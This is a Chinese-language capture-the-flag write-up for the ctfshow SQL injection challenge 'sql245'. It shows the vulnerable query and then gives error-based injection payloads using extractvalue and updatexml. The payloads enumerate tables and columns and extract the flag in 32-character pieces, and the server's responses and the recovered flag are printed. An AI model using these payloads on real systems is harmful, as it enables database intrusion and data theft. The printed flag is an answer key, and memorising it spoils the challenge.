 # ctfshow-sql245



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
 //备份表
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";

```



 返回逻辑 

```
  //无过滤
  过滤updatexml
```





```mysql
过滤updatexml,还有extractvalue
两者区别
http://localhost/sqli.php?name=' or extractvalue(1,concat(user(),0x7e,version())) # &pass=1

http://localhost/index.php?name=' or updatexml(1,concat(user(),0x7e,version()),1) # &pass=1

/api
get传参


?id=' or extractvalue(1,concat(0x7e,database(),0x7e))-- -
~ctfshow_web~


因为xpath的报错只有32位，所以需要截取

?id=' or extractvalue(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),1))-- -


{"code":0,"msg":"XPATH syntax error: 'banlist,ctfshow_flagsa,ctfshow_u'","count":1,"data":[]}
少了应该是ctfshow_user
banlist,ctfshow_flagsa,ctfshow_user


?id=' or extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagsa'),1))-- -

{"code":0,"msg":"XPATH syntax error: 'id,flag1,info1'","count":1,"data":[]}



?id=' or extractvalue(1,concat(1,substr((select group_concat(flag1) from ctfshow_flagsa),1,32),1))-- -

{"code":0,"msg":"XPATH syntax error: 'ctfshow{9d25c68a-6712-4cad-96d3-'","count":1,"data":[]}
ctfshow{9d25c68a-6712-4cad-96d3-

?id=' or extractvalue(1,concat(1,substr((select group_concat(flag1) from ctfshow_flagsa),20,32),1))-- -
{"code":0,"msg":"XPATH syntax error: 'cad-96d3-1e1819039ad5}1'","count":1,"data":[]}


ctfshow{9d25c68a-6712-4cad-96d3-1e1819039ad5}
```
























